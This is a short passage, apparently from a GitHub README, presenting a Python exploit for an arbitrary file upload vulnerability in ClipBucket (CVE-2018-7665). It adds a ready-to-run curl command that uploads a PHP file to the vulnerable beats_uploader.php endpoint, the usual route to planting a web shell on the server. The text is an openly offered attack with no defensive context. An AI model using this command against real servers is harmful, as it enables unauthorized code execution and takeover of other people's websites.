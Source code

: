 # ClipBucket - Arbitrary File Upload (CVE-2018-7665) / Python Version 🐍❤ 
--
You can also exploit this vulnerability with Curl:
```bash
curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php" "http://$HOST/actions/beats_uploader.php"
```
